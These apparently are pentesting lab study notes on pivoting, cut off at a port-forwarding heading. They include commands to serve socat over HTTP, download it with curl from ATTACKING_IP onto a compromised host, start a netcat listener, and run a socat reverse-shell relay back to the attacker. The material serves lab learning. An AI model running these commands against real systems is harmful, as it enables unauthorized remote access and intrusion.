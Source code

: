  Q:  What tool can be used to convert OpenSSH keys into PuTTY style keys?
 A: puttygen


  Socat:
  ------
 ## to share the binary of socat in the compromise machine go to the folder/location of the
 binary of the socat and open terminal there and use the following command 

 command: sudo python3 -m http.server 80 

 ## this is same as we use apache server to share a file 

 then,on the target use this command 

 command: curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME

 Method Reverse shell Relay
 --------------------------

  1) First let's start a standard netcat listener on our attacking box 

  commad: sudo nc -lvnp 443

  2) Next, on the compromised server, use the following command to start the relay:
 
 command: ./socat tcp-l:8000 tcp:ATTACKING_IP:443 & 

 ## Note: the order of the two addresses matters here. Make sure to open the listening port first, then connect back to the attacking machine.

 A brief explanation of the above command:
 -----------------------------------------


 ==> tcp-l:8000 :
     ------------
  This is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.

 ==> tcp:ATTACKING_IP:443 :
     ----------------------
  connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.

 ==>  & :
     ---
    backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.



  Easy Method of Port Forwording
  -------------------------------
